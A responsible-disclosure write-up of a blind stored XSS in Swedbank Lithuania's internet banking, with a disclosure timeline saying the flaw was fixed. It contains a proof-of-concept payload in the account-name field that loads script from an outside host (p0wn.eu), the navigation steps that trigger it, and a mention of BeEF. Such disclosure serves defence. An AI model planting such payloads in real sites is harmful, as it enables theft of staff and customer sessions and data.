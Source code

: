 Blind Stored Cross-Site-Scripting (XSS) in Swedbank Retail Banking
==================================================================

Description
-----------
Regular authenticated internet banking users can include arbitrary input within bank’s account name. 
This makes internet banking application hosted at https://www.swedbank.lt/private vulnerable to a blind Stored Cross-Site-Scripting attack (XSS). 

A malicious actor would first place arbitrary javascript payload within their bank account name. 
Once it is accessed by another party - for example banking personnel, call centre staff etc. attacker-controlled javascript code would be executed within the context of the victim browser.
This could then be used to both leak confidential information and perform escalation of privillege attacks.

Proof-of-Concept
----------------

Authenticate to the web application and open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases

Include following javascript code within your bank account name and save changes:
```
A<script src=“//p0wn.eu”></script>
```

*Note* To make an isolated check from external network a simple trick can be used:
Point domain used within payload to the IP address you control and save the entry within system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

Unfiltered user input and failure to sanitize output in the web content leads to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center staff etc.) browser.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
